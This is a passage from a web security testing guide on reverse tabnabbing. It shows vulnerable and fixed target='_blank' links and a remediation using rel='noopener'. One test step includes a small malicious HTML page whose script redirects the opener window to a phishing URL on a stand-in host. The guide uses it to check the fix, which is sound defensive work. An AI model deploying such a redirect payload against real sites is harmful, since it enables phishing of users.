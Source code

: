 **Example Secure Response**:
```html
<a href="http://external.com" target="_blank" rel="noopener">Link</a>
```
`window.opener` is `null`.

**Example Vulnerable Response**:
```html
<a href="http://external.com" target="_blank">Link</a>
```
`window.opener` references the parent window.

**Remediation**:
- Add `rel="noopener"`:
  ```html
  <a href="http://external.com" target="_blank" rel="noopener noreferrer">Link</a>
  ```
- Server-side rendering (e.g., in Node.js):
  ```javascript
  res.send('<a href="http://external.com" target="_blank" rel="noopener">Link</a>');
  ```

**Tip**: Save link attributes and `window.opener` logs in a report.

### 2. Test `window.opener` Manipulation

**Objective**: Ensure a malicious page cannot manipulate the parent window via `window.opener`.

**Steps**:
1. Create a malicious page:
   ```html
   <!DOCTYPE html>
   <html>
   <body>
     <script>
       if (window.opener) {
         window.opener.location = 'http://malicious.com/phishing';
       }
     </script>
   </body>
   </html>
   ```
2. Host the page (e.g., `python3 -m http.server 8000`).
3. Open a target page with a vulnerable link:
   ```html
   <a href="http://localhost:8000/malicious.html" target="_blank">External Link</a>
   ```
4. Click the link and check if the original page redirects to `malicious.com`.

**Example Secure Response**:
```html
<a href="http://external.com" target="_blank" rel="noopener">Link</a>
```
No redirect; `window.opener` is `null`.

**Example Vulnerable Response**:
```html
<a href="http://external.com" target="_blank">Link</a>
```
Original page redirects to `malicious.com`.
